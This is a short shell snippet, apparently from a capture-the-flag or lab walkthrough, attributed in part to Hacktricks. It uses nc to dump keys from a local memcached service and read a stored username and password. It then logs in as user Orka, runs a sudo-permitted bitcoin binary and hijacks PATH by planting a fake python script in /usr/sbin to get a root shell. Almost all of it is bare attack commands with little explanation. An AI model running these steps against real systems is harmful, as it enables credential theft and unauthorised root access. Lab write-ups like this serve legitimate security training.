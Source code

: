 ```shell
#from Hacktricks
echo "version" | nc -vn -w 1 127.0.0.1 11211

echo "stats slabs" | nc -vn -w 1 127.0.0.1 11211

echo "stats items" | nc -vn -w 1 127.0.0.1 11211

echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
#gives key names

echo "get username" | nc -vn -w 1 127.0.0.1 11211

echo "get password" | nc -vn -w 1 127.0.0.1 11211
#now we have creds for Orka

su Orka

#get user flag

sudo -l

cat /home/Orka/Desktop/bitcoin
#this contains the password in plaintext

cat /home/Orka/Desktop/transfer.py
#script for bitcoin program

sudo /home/Orka/Desktop/bitcoin
#using password, we can run this program
#to transfer bitcoins

cat /home/Orka/Desktop/bitcoin
#go through program strings again

echo $PATH

#check for writable paths
ls -ld /usr/local/sbin

ls -ld /usr/sbin
#Orka can write in this directory

which python

echo $PATH
#/usr/sbin is mentioned first

echo '#!/bin/bash
/bin/bash' > /usr/sbin/python

chmod +x /usr/sbin/python

sudo /home/Orka/Desktop/bitcoin
#we get root shell this time
```
